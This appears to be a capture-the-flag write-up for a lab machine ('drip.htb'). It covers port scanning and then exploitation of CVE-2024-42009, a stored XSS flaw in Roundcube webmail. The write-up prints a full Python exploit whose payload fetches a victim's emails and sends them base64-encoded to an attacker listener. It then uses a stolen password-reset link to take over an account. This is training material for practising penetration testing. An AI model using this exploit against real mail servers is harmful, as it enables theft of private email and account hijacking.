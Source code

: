 ![](https://github.com/user-attachments/assets/8278069b-610a-4c6d-a7b6-101029e255af)

## 1. Recon

### 1.1. Port Scan `nmap`

Quick initial scan to find open ports:

```console
root@kali:~# nmap -sS -p- --min-rate 100000 -Pn 10.10.11.54
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-13 08:34 +08
Nmap scan report for 10.10.11.54
Host is up (0.013s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.53 seconds
```

Script and version scan on open ports:

```console
root@kali:~# nmap -Pn -p 22,80 -sCV 10.10.11.54
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-13 08:34 +08
Nmap scan report for 10.10.11.54
Host is up (0.0054s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey:
|   256 33:41:ed:0a:a5:1a:86:d0:cc:2a:a6:2b:8d:8d:b2:ad (ECDSA)
|_  256 04:ad:7e:ba:11:0e:e0:fb:d0:80:d3:24:c2:3e:2c:c5 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.37 seconds
```

## 2. Exploring Roundcube Webmail

### 2.1. Looking around

The web app is at `http://drip.htb/`:

```console
root@kali:~# curl 10.10.11.54
<meta http-equiv="refresh" content="0; url=http://drip.htb/" />
```

_Sign In_ links to `http://mail.drip.htb/`:

![](https://github.com/user-attachments/assets/4ee1c489-f446-4668-b63f-547648e37102)

Which is Roundcube Webmail:

![](https://github.com/user-attachments/assets/56f7f86b-5c0c-4bbb-a5fd-da7e6cb9c0ab)

_Sign Up_ links to account registration page:

![](https://github.com/user-attachments/assets/f36f0c12-8848-4a6e-b2bb-c50bee487843)

Register account and sign in, version is `1.6.7`:

![](https://github.com/user-attachments/assets/4825f5d1-8351-43b9-9d7d-641949bb3c52)

Note the `drip.darkcorp.htb` domain from _Headers_:

![](https://github.com/user-attachments/assets/367fb443-b91e-457f-87c8-7b694c22eac0)

### 2.2. CVE-2024-42009

[CVE-2024-42009](https://github.com/advisories/GHSA-j43g-prf4-578j): A Cross-Site Scripting vulnerability in Roundcube through 1.5.7 and 1.6.x through 1.6.7 allows a remote attacker to steal and send emails of a victim via a crafted e-mail message that abuses a Desanitization issue in message_body() in program/actions/mail/show.php.

Intercept the _Contact Us_ request via Burp Suite:

![](https://github.com/user-attachments/assets/4da2f0de-3c74-463e-9753-96da2e6c70c3)

![](https://github.com/user-attachments/assets/acfb7fba-0df8-4e14-91bb-583814e72f60)

Change `recipient=support%40drip.htb` into `recipient=test%40drip.htb` and forward the edited request to hijack the email

An email `bcase@drip.htb` is discovered that can be used for the XSS exploit:

![](https://github.com/user-attachments/assets/82b2372e-c795-4173-8b39-b7a8024f6d0c)

Found exploit code for CVE-2024-42009:
1. Adjust `http://10.10.14.3:8000` to kali IP address to reflect the information to correct location
2. Adjust `message = 2` to change the UID of the email to retrieve by `?_task=mail&_action=show&_uid=`

```python
import requests
from http.server import BaseHTTPRequestHandler, HTTPServer
import base64
import threading
from lxml import html

# Configuration
TARGET_URL = 'http://drip.htb/contact'
LISTEN_PORT = 8000
LISTEN_IP = '0.0.0.0'

# Payload for the POST request
start_mesg = '<body title="bgcolor=foo" name="bar style=animation-name:progress-bar-stripes onanimationstart=fetch(\'/?_task=mail&_action=show&_uid='
message = 2
end_mesg = '&_mbox=INBOX&_extwin=1\').then(r=>r.text()).then(t=>fetch(`http://10.10.14.3:8000/c=${btoa(t)}`)) foo=bar">Foo</body>'

post_data = {
    'name': 'test',
    'email': 'test@drip.htb',
    'message': f"{start_mesg}{message}{end_mesg}",
    'content': 'html',
    'recipient': 'bcase@drip.htb'
}
print(f"{start_mesg}{message}{end_mesg}")

# Headers for the POST request
headers = {
    'Host': 'drip.htb',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'http://drip.htb',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Referer': 'http://drip.htb/index',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'en-US,en;q=0.9',
    'Cookie': 'session=eyJfZnJlc2giOmZhbHNlfQ.aMTEkA.kLDBkDWeSgzVjLHOIUq6hZEF8CE',
    'Connection': 'close'
}

# Function to send the POST request
def send_post():
    response = requests.post(TARGET_URL, data=post_data, headers=headers)
    print(f"[+] POST Request Sent! Status Code: {response.status_code}")

# Custom HTTP request handler to capture and decode the incoming data
class RequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if '/c=' in self.path:
            encoded_data = self.path.split('/c=')[1]
            decoded_data = base64.b64decode(encoded_data).decode('latin-1')
            print(f"[+] Received data {decoded_data}")
            tree = html.fromstring(decoded_data)

            # XPath query to find the div with id 'messagebody'
            message_body = tree.xpath('//div[@id="messagebody"]')
           
            # Check if the div exists and extract the content
            if message_body:
                # Extract inner text, preserving line breaks
                message_text = message_body[0].text_content().strip()
                print("[+] Extracted Message Body Content:\n")
                print(message_text)
            else:
                print("[!] No div with id 'messagebody' found.")

        else:
            print("[!] Received request but no data found.")

        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'OK')

    def log_message(self, format, *args):
        return  # Suppress default logging

# Function to start the HTTP server
def start_server():
    server_address = (LISTEN_IP, LISTEN_PORT)
    httpd = HTTPServer(server_address, RequestHandler)
    print(f"[+] Listening on port {LISTEN_PORT} for exfiltrated data...")
    httpd.serve_forever()

# Run the HTTP server in a separate thread
server_thread = threading.Thread(target=start_server)
server_thread.daemon = True
server_thread.start()

# Send the POST request
send_post()

# Keep the main thread alive to continue listening
try:
    while True:
        pass
except KeyboardInterrupt:
    print("\n[+] Stopping server.")
```


Run the exploit:

```console
root@kali:~# python3 exploit.py
<body title="bgcolor=foo" name="bar style=animation-name:progress-bar-stripes onanimationstart=fetch('/?_task=mail&_action=show&_uid=2&_mbox=INBOX&_extwin=1').then(r=>r.text()).then(t=>fetch(`http://10.10.14.3:8000/c=${btoa(t)}`)) foo=bar">Foo</body>
[+] Listening on port 8000 for exfiltrated data...
[+] POST Request Sent! Status Code: 200
[+] Received data <!DOCTYPE html>
```

Receive information:

```console
[+] Extracted Message Body Content:

Hey Bryce,

The Analytics dashboard is now live. While it's still in development and limited in functionality, it should provide a good starting point for gathering metadata on the users currently using our service.

You can access the dashboard at dev-a3f1-01.drip.htb. Please note that you'll need to reset your password before logging in.

If you encounter any issues or have feedback, let me know so I can address them promptly.

Thanks
```

### 2.3. Getting access to `dev-a3f1-01.drip.htb`

![](https://github.com/user-attachments/assets/706d9d12-dd8e-4988-9b62-48e3b912e8bb)

![](https://github.com/user-attachments/assets/91727468-5214-43a8-ba57-d31ada02e822)

![](https://github.com/user-attachments/assets/4bc048cf-0899-46ac-97c9-f7675e4b510c)

Adjust `message = 3` to change the UID of the email to retrieve and get the password reset URL:

```console
[+] Extracted Message Body Content:

Your reset token has generated.  Please reset your password within the next 5 minutes.

You may reset your password here: http://dev-a3f1-01.drip.htb/reset/ImJjYXNlQGRyaXAuaHRiIg.aMTMMg.l-r8fRl37TG9zNEF9l-ZG4W_XwA
```

![](https://github.com/user-attachments/assets/2a17c94a-5c16-4cd1-97b0-3d2be55369fb)

![](https://github.com/user-attachments/assets/55d9d9f5-86fb-49b9-8272-beb6f2255af8)
